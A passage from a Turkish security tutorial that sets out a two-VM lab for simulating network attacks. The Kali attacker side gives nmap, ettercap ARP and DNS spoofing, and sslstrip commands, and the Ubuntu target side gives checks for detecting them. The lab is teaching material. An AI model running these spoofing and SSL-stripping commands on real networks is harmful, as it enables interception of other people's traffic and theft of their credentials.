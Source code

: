 ```bash

# 11. Client konfigürasyon dosyası oluştur
# client.ovpn dosyasını hazırla
```

### 🔬 Lab 4: Ağ Saldırı Simülasyonu

**Hedef**: Kontrollü ortamda ağ saldırıları test etmek

**Gereksinimler**: 2 VM (Kali Linux + Ubuntu)

**Adımlar**:
```bash
# Kali Linux (Saldırgan)

# 1. Ağ keşfi
nmap -sn 192.168.1.0/24

# 2. Hedef tarama
nmap -sS -A 192.168.1.100

# 3. ARP spoofing
ettercap -T -M arp:remote /192.168.1.1// /192.168.1.100//

# 4. DNS spoofing
# /etc/ettercap/etter.dns dosyasını düzenle
echo "www.google.com A 192.168.1.50" >> /etc/ettercap/etter.dns
ettercap -T -M arp:remote -P dns_spoof /192.168.1.1// /192.168.1.100//

# 5. SSL Strip
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
sslstrip -l 8080

# Ubuntu (Hedef)

# 1. Ağ trafiğini izle
sudo tcpdump -i eth0 -w capture.pcap

# 2. ARP tablosunu kontrol et
arp -a
watch -n 1 arp -a

# 3. DNS sorgularını test et
nslookup www.google.com

# 4. HTTPS bağlantılarını test et
curl -I https://www.google.com
```

---

## 🌍 Gerçek Dünya Senaryoları
